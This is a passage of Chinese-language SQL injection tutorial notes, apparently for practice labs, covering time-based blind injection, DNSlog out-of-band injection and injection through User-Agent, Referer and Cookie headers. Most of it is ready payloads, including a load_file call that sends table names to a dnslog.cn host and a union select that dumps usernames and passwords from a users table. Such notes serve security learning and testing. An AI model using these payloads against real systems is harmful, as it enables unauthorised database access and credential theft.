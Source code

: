 `passwd=admin&Submit=Submit&uname=aaa' or if(ascii(substring(select( database()),2,1))>=ascii('s'),sleep(0),sleep(2)) # `

## dnslog注入

`passwd=admin&Submit=Submit&uname=aaa' or (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 0,1),".wkpllp.dnslog.cn/a"))) --+` # `



## POST报头注入

页面看不到明显变化,找不到诸如点,可以尝试报头注入

post注入是,万能密码无法绕过验证,可以通过查看源代码分析页面的执行动作



### uagent

即User-Agent,中文名为用户代理,简称UA,它是一个特殊字符串头,使得服务器能够识别客户使用的操作系统及版本,cpu类型,浏览器及版本,浏览器渲染引擎,浏览器语言,浏览器插件等.

内容就是浏览器及版本信息,电脑信息等.

常见用途为限制打开软件,浏览器,以及网上行为管理等.

使用burpsuite抓包,更改User-Agent为:

`User-Agent:' or updatexml(1,concat('#',(select database())),0),'','')#`

**注意:**用代理拦截数据包,把数据包发送到repeater可以在burpsuite上反复修改数据包内容



### referer

即HTTP Referer,是头部信息header的一部分,当浏览器向web服务器发送请求的时候,一般会带上Referer,告诉服务器该网页是从哪个页面链接过来的,服务器因此可以获得一些信息用于处理

常见用法   防盗链:比如只允许自己的网站访问自己的图片服务器,自己的域名是www.google.com,那么服务器每次提取到Referer来判断是不是自己的域名,如果是就继续访问,不是就拦截

防止恶意请求

空referer

`Referer: ' or extractvalue(1,concat('~',(select database()))),2)#`



### cookie

临时身份证

`Cookie: uname=' union select 1,2,(select group_concat(username,'~',password) from users) --+`



**注意:**

优先选用`联合注入` >> `报错注入` >> `布尔盲注` >> `时间盲注`



## sql注入绕过过滤符
